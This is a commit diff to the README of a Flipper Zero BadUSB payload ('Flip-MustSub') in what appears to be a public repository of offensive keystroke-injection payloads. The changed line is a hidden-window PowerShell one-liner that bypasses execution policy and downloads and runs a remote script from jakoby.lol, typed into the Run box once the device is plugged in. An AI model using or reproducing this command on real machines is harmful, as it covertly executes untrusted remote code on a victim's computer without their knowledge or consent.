

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-MustSub/Readme.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/Payloads/Flip-MustSub/Readme.md
+++ b/Payloads/Flip-MustSub/Readme.md
@@ -45,7 +45,7 @@ Each URL will be passed through the subscribe function.
 * Plug in your device
 * Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
 ```
-powershell -w h -NoP -NonI -Ep Bypass iwr jakoby.lol/14q | iex
+powershell -w h -NoP -NonI -Ep Bypass irm jakoby.lol/14q | iex
 ```
 
 <p align="right">(<a href="#top">back to top</a>)</p>
````
